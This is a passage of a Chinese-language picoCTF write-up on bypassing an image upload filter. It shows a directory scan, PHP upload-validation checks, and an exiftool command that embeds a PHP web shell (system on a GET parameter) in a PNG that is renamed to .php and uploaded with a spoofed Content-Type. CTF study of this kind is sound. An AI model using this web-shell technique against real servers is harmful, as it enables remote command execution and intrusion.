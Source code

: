 ```php=
    curl_close($ch);
} else {
    echo 'Failed to read flag file.';
}
?>

```
:question: 可以把png嵌入php上傳，但php無法執行。

#### 3. Dirsearch Tools
```command
dirsearch -u http://atlas.picoctf.net:64632/
```
![image](https://hackmd.io/_uploads/BJhGU5y0a.png)

> 看到 /uploads 路徑 301

#### 4. png 塞入php後門
:::info
常見的上傳檔案格式判斷

(1) HTML顯示 only png，內部沒有過濾
```php
$filename = basename($_FILES['image_file']['name']);
```

(2) 判斷filename
```php
$filename = basename($_FILES['image_file']['name']);
$extension = strtolower(explode(".", $filename)[1]);
if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
```

(3)判斷filename & file information
```php
$filename = basename($_FILES['image_file']['name']);
$extension = strtolower(explode(".", $filename)[1]);
if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
使用者上傳檔案時，getimagesize取得圖像檔案的資訊
list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);
if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false)
```
:::
```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' CTF.png
mv CTF.png CTF.png.php
```

![image](https://hackmd.io/_uploads/r1TSs5kAT.png)

(UPLOAD) 更改Content-Type: image/png
![image](https://hackmd.io/_uploads/r1vTkoyRp.png)

http://atlas.picoctf.net:64632/uploads/CTF.png.php
